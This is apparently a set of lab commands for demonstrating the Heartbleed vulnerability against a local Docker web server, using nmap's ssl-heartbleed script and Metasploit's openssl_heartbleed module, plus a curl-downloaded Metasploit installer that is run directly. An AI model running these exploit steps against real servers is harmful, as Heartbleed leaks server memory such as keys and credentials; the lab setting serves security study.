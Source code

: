 # Start web server
docker-compose up -d web-server

# Scan web server using nmap from the local machine
sudo nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1


# Scan heartbleed vulnerability from the attacker container
docker run --rm -it instrumentisto/nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1


# Run Metasploit console in a container
docker run --rm -it metasploitframework/metasploit-framework ./msfconsole

use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS web-server
set RPORT 443
exploit


# Install Metasploit on Linux / macOS (AWS Ubuntu)
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
# Run Metasploit on Linux / macOS (AWS Ubuntu)
msfconsole
# From there, the program will ask you a couple of questions and will ask for a username and
# password. From there, the program will successfully start and we can get down to business.
# We will input the following to setup our program to target for the Heartbleed bug:
use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS 127.0.0.1
set RPORT 8443
exploit








# No longer needed: start the attacker container image
docker compose run attacker bash
# Or
docker-compose run attacker bash

